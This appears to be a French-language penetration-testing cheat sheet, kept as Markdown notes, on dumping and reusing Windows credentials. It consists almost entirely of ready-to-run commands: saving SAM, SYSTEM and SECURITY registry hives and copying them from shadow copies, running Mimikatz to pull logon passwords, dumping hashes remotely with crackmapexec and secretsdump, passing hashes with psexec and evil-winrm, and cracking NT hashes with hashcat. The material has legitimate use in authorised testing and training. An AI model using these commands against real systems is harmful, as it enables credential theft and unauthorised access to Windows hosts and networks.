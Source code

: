 ```yaml
---
public: true
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

Création d'un cliché instantané si besoin

```shell
wmic shadowcopy call create Volume="C:\"
```

Liste des clichés disponibles

```shell
vssadmin.exe list shadows # Noter la ligne 'Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3'

mkdir C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\temp\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\temp\SAM
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
mimikatz.exe "privilege::debug; sekurlsa::logonpasswords; exit" >> mimikatz_output.txt
powershell start-process "\\172.16.5.225\share\mimikatz.exe" -argumentlist "**privilege**::debug","sekurlsa::logonpasswords","sekurlsa::logonpasswords" >> output.txt
********
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
